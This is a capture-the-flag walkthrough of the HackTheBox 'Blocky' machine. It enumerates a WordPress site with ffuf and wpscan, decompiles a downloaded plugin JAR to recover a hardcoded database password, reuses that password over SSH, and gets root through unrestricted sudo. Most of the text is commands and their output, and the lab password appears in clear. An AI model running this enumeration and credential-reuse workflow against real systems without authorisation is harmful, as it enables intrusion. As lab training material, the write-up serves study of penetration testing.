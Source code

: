 ```yaml
---
title: HackTheBox - Blocky
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-09-20
tags: [tcp/80-http/cms/wordpress]
img_path: /Writeups/HackTheBox/Linux/Blocky/images/
image:
  src: Pasted%20image%2020220920195609.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```



# Overview 
This machine begins w/ a web enumeration, discovering a directory `/plugins` and `wordpress` CMS running on it. After enumerating `wordpress`, user `notch` is discovered. The `/plugins` directory contains 2 `java` archives. After extracting it, a compiled java file is found, simply decompiling it reveals SSH password for user `notch`. 

For the privilege escalation part, user `notch` is able to run any command as `root`, running `su` privilege escalated us to `root`.

---

| Column       | Details                                                       |
| ------------ | ------------------------------------------------------------- |
| Box Name     | Blocky                                                        |
| IP           | 10.10.10.37                                                   |
| Points       | 20                                                            |
| Difficulty   | Easy                                                          |
| Creator      | [Arrexel](https://www.hackthebox.com/home/users/profile/2904) |
| Release Date | 21 Jul 2017                                                              |


# Recon

## TCP/80 (HTTP)
- FFUF
	```bash
	.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 3695ms]
	index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 70ms]
	javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 35ms]
	plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 35ms]
	server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 37ms]
	wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 37ms]
	wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 36ms]
	wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 36ms]
	wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 37ms]
	xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 158ms]
	```
	- `plugins`
	- `phpmyadmin`



# Initial Foothold

## TCP/80 (HTTP) - Enumerate WP
1. Enumerate users 
	```
	wpscan --no-update --disable-tls-checks --url http://blocky.htb -e u -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_user_enum.txt"
	
	[i] User(s) Identified:
	
	[+] notch
	 | Found By: Author Posts - Author Pattern (Passive Detection)
	 | Confirmed By:
	 |  Wp Json Api (Aggressive Detection)
	 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)
	```
	- `notch`
2. Enumerate plugins
	```
	┌──(root💀kali)-[~/htb/blocky]
	└─# wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://blocky.htb -e ap -f cli-no-color 2>&1 | tee "tcp_80_http_wpscan_plugin_enum.txt"
	
	[i] Plugin(s) Identified:
	
	[+] akismet
	 | Location: http://blocky.htb/wp-content/plugins/akismet/
	 | Last Updated: 2021-10-01T18:28:00.000Z
	 | Readme: http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | [!] The version is out of date, the latest version is 4.2.1
	 |
	 | Found By: Known Locations (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/, status: 200
	 |
	 | Version: 3.3.2 (100% confidence)
	 | Found By: Readme - Stable Tag (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
	 |  - http://blocky.htb/wp-content/plugins/akismet/readme.txt
	```
3. Does not look vulnerable, move on


## TCP/80 (HTTP) - What kind of files are in /plugins directory
1. Download all files residing in `plugins`
2. Determine the file type of downloaded files 
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot]
	└─# file BlockyCore.jar griefprevention-1.11.2-3.1.1.298.jar 
	BlockyCore.jar:                       Java archive data (JAR)
	
	griefprevention-1.11.2-3.1.1.298.jar: Zip archive data, at least v2.0 to extract, compression method=deflate
	```
3. Extract `BlockyCore.jar`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# jar -xf BlockyCore.jar 
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	```
4. View directory structure of the extract files
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore]
	└─# tree -a .
	.
	├── BlockyCore.jar
	├── com
	│   └── myfirstplugin
	│       └── BlockyCore.class
	└── META-INF
	    └── MANIFEST.MF
	
	3 directories, 3 files
	```
	- `BlockyCore.jar`
5. Determine the file type of `Blocky.jore`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# file BlockyCore.class 
	BlockyCore.class: compiled Java class data, version 52.0 (Java 1.8)
	```
	- A Java class file is created by a Java compiler from `.java` files


## TCP/80 (HTTP) - Decompile .class file, obtaining credentials
1. Decompile `BlockyCore.class` file
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# javap -c BlockyCore.class | tee decompiled_BlockyCore.class
	```
2. View `decompiled_BlockyCore.class`, credentials found in the comments
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# cat decompiled_BlockyCore.class | grep -P '//'
	       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
	       5: ldc           #14                 // String localhost
	       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
	      11: ldc           #18                 // String root
	      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
	      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
	      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
	       1: ldc           #33                 // String TODO get username
	       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
	       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
	```
	- `8YsqfCTnvxAUeduzjNSXe22`


## TCP/22 (SSH)
1. SSH w/ `notch:8YsqfCTnvxAUeduzjNSXe22`
	```
	┌──(root💀kali)-[~/htb/blocky/10.10.10.37/loot/blockycore/com/myfirstplugin]
	└─# sshpass -p '8YsqfCTnvxAUeduzjNSXe22' ssh notch@blocky.htb
	Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	7 packages can be updated.
	7 updates are security updates.
	
	
	Last login: Tue Sep 20 06:14:32 2022 from 10.10.14.14
	notch@Blocky:~$ id;whoami
	uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
	notch
	notch@Blocky:~$ 
	```


# Privilege Escalation

## Root - Sudo
1. Check `notch` sudo access
	```
	notch@Blocky:~$ sudo -l
	[sudo] password for notch: 
	Matching Defaults entries for notch on Blocky:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User notch may run the following commands on Blocky:
	    (ALL : ALL) ALL
	```
	- Able to run any command as `root`
2. Obtain `root` w/ `su`
	```
	notch@Blocky:~$ sudo su
	root@Blocky:/home/notch# id;whoami
	uid=0(root) gid=0(root) groups=0(root)
	root
	root@Blocky:/home/notch# 
	```


